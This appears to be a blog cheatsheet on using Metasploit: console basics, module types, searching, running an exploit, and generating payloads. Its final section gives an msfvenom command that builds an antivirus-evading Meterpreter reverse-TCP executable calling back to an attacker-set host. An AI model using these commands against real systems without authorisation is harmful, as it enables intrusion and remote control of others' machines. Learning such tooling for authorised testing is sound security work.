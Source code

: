 ```yaml
---
title: Metasploit Cheatsheet
date: 2021-09-26
tags: [security, kali]
image: msf.png
---
```


Metasploit is the ultimate penetration testing tool for offensive security. And it's so easy to use that even you could claim to be a hacker just by running a few commands. Also, it is incredibly powerful as well. This guide is a general overview of how Metasploit can be used.

## 1. Getting started

Start the Metasploit console.

```bash
# Start the console
$ msfconsole
```

The console will now show the msf shell. You can provide commands on the shell to run various Metasploit modules.

Metasploit continuously adds new modules to its collection. To make sure you always have the latest exploits, run:

```bash
msf > msfupdate     # Update the msf database
```

Metasploit is quite big and it's easy to get lost around. If you need help, run:

```bash
msf > help          # Show help
```

The console output of the _help_ command might feel overwhelming as well. But don't worry. You'll always have this blog post to help you out.

## 2. Metasploit Modules

Metasploit has thousands of modules. They are arranged in the following categories:

* **Exploits**: It is the most commonly used module. It sends payloads to targets and executes them.
* **Payloads**: It consists of code that runs remotely to exploit the target.
* **Encoders**: It encodes a payload so that it is not detected by firewalls/anti-malware programs.
* **Nops**: It keeps payload sizes consistent when encoders encode a payload. (Learn more about nop sled).
* **Post**: It contains modules that assist post-exploitation.
* **Auxillary**: It includes port scanners, fuzzers, sniffers, and other helper modules.

You can see the modules under each of these categories. Check what exists by running:

```bash
$ show exploits
$ show payloads
```

## 3. Searching for Modules

If you've tried ```show exploits``` you've probably seen a huge list of modules. It's impossible to go through this list and find what you need. You can use the **search** functionality to filter/look for your desired modules. Run:

```bash
$ search ftp
```

This will show you modules that have exploits for FTP servers. You can filter based on more criteria:

```bash
$ search ftp platform:windows rank:excellent
```

This will show excellently ranked FTP server exploits for windows machines. You can filter based on the following fields:

* name
* path
* platform
* type
* app
* author
* cve
* bid
* osdvb

## 4. Run an Exploit

The following series of shell commands are typically used to run an exploit using Metasploit.

At first select the module of your choice that you want to run for exploitation.

```bash
msf > use exploit/[ExploitModule]
```

Modules have multiple options that need to be set for execution. To see what options can be set, see the options:

```bash
msf > show options
```

After seeing the options, set their values like:

```bash
msf > set [Option] [Value]
msf > RHOST 10.100.101.12       # example
msf > set RPORT 8000            # example
```

Now start the exploit:

```bash
msf > exploit
```

## 5. Make Payloads with Msfvenom

Sometimes you'll need to create standalone files as payloads to send them to your target. Msfvenom is a CLI tool that can help with creating these files.

At first search for payloads and encoders that msfvenom has. Payloads execute an attack and encoders encode a payload so that the payload can evade AVs.

```bash
$ msfvenom -l           # Payloads
$ msfvenom -l encoders  # Encoders
```

A typical msfvenom that generates payloads looks like this.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp
           -f exe 
           -e x86/shikata_ga_nai -i 5 
           LHOST=10.1.1.1
           LPORT=4444 > met.exe
```

Other output formats such as pl, rb, py can also be specified.

